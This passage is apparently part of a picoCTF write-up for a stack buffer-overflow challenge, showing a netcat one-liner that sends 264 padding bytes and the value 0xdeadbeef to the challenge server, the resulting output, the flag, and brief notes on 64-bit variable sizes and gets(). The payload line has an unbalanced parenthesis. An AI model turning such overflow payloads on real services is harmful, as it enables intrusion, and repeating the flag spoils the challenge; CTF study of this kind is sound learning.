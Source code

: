 5.I use the following command to send the payload
```
python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890
```
Output
```
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

-In a 64-bit architecture (AMD64), local variables declared as long or pointers are typically 8 bytes wide (a Quadword or QWORD).
- When a program uses a standard input function like gets() or fgets(), it typically waits for a newline character (\n or0x0a) to terminate the input and start processing.


## Notes:

- Include any alternate tangents you went on while solving the challenge, including mistakes & other solutions you found.
- When a program uses a standard input function like gets() or fgets(), it typically waits for a newline character (\n, or $\text{0x0a}$) to terminate the input and start processing.
